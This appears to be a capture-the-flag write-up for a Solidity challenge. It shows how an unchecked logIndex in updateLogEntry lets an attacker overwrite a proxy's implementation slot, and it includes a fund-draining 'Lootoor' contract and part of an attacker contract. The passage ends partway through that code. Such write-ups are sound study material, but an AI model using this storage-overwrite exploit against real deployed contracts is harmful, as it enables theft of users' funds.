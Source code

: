 The first vulnerability resides in the `updateLogEntry` function: `logIndex` is not checked. The function can therefore write (almost) arbitrary data at any storage slot, since the storage slot address is calculated by adding `logIndex` to `;sha3(logEntries.slot)`. Note that this is Solidity assembly, so overflows do not cause any error.

Note: `createLogEntry` also has the same vulnerability - I guess you could also exploit it.

The first question is how this can be exploited. Well, TransparentUpgradableProxies use the same 'storage' as the contract they point to. There are some well-defined slots where they store data such as the proxy admin. For this challenge, I wrote to the implementation slot, which tells the proxy which contract to delegate its calls to.

The second question is how to overcome a less-obvious limitation. If you look again at the `updateLogEntry` function, you'll see that logEntry has a max length of 31. A slot is 32 bytes long. I solved this by deploying the contract that drains the proxy to an address that ends with 0x3e (the value that will be at slot & 0xFF if our string is 31 bytes long). If you don't know how that is possible, take a look at [create2](https://solidity-by-example.org/app/create2/).


Here's my solution:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Lootoor {
    function drain() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./PrivateLog.sol";
import "./Lootoor.sol";
// import "hardhat/console.sol";

contract PrivateLogAttacker {
    function getSamplePasswordHash(string memory _password) public pure returns (bytes32) {
        return keccak256(abi.encodePacked(_password));
    }

    function getSampleInitializerData() external view returns (bytes memory) {
        return abi.encodeWithSignature("init(bytes32)", this.getSamplePasswordHash("yakuhito"));
    }

    // https://ethereum.stackexchange.com/questions/2519/how-to-convert-a-bytes32-to-string
    // modified to return bytes fo len 31
    function addressToStr(address _addr) public returns (string memory) {

    // string memory str = string(_bytes32);
    // TypeError: Explicit type conversion not allowed from "bytes32" to "string storage pointer"
    // thus we should fist convert bytes32 to bytes (to dynamically-sized byte array)

    bytes memory addrAsBytes = abi.encodePacked(_addr);

    bytes memory bytesArray = new bytes(31);
    for(uint256 i = 0; i < addrAsBytes.length - 1; ++i) {
        bytesArray[bytesArray.length - 1 - i] = addrAsBytes[addrAsBytes.length - i - 2]; // please don't judge me
    }
    return string(bytesArray);
    }
```